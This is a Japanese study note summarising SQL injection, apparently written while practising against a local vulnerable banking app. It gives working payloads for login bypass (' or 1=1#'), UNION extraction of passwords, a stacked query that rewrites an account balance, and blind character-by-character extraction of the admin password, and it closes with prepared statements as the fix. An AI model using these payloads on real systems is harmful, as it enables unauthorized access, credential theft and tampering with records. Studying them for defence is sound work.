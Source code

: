 # SQLiのWriteUpをまとめる

## 脆弱性の見つけ方
* 画面入力のパラメータに[']を入れる
```SQL
SELECT B FROM C WHERE name = '''
```
データベースエラーが表示されたら脆弱性
![](/%E8%84%86%E5%BC%B1%E6%80%A7%E8%A8%BA%E6%96%AD/web%E8%84%86%E5%BC%B1%E6%80%A7/img/SQLikensa.png)

* GETパラメータやPOSTの値を変更してリクエストする

## 影響
![](/%E8%84%86%E5%BC%B1%E6%80%A7%E8%A8%BA%E6%96%AD/web%E8%84%86%E5%BC%B1%E6%80%A7/img/SQLiinfluence.png)

## 脆弱性の攻撃
* どのようなリクエストを投げたら、どのようなSQL文が
APサーバーからDBサーバーに投げられるのか、想像することが
重要

```SQL
SELECT * FROM Users WHERE id = "ユーザ入力値"
AND pass = "ユーザ入力値";
```

というＳＱＬだったら
```SQL
SELECT * FROM Users WHERE id = "" or 1=1#"
```
とするとすべての結果がでる。

**「" or 1=1#"」**が入力
エスケープを自動的にしてくれないときは
**「"%20or1=1#"]**
また#は後ろのＳＱＬをコメントアウトするための
ものであるがDBによっては”--"を最後に入れることも
おおい


以下で利用されているＳＱＬを推測するのがとても大事
* information_schema
→すべてのDBに関する情報を格納する場所

    * information_schema.tables
    → MySQLに登録されているすべてのテーブルの一覧

    * information_schema.colums
    → MySQLに登録されているすべてのカラムの一覧

* sqliteのテーブルスキーマ情報
https://www.dbonline.jp/sqlite/#section_ini
https://www.dbonline.jp/sqlite/table/index2.html

* UNION
→絶対使い慣れること。カラム数と属性を合わせること

```URI
http://localhost/Users/_personal/Web/Scenario1223/VulSoft/bank.php?page=4&account_id=0 OR 1=1 UNION ALL SELECT id, name, password, NULL, NULL, NULL FROM user
```

### 複文
```
200002; UPDATE account SET balance = 1000000 WHERE account_id = 100005
```

INSERTやUPDATEしているであろう項目に対して「;」区切りでinsertやupdateを追加する

### ブラインドSQL

```
sato'AND SUBSTR((SELECT password FROM user WHERE id='admin'),1,1) = 'a'--
```

idが[admin]であるとわかっていれば、パスワードの1文字目を抜き出して比較を
総当たりしていけばパスワードを推測できるという技

シェルでBruteForceしている例
https://orebibou.com/ja/home/201901/20190104_001/


## 対策

* プリペアードステートメント（静的プレースホルダ）を用いる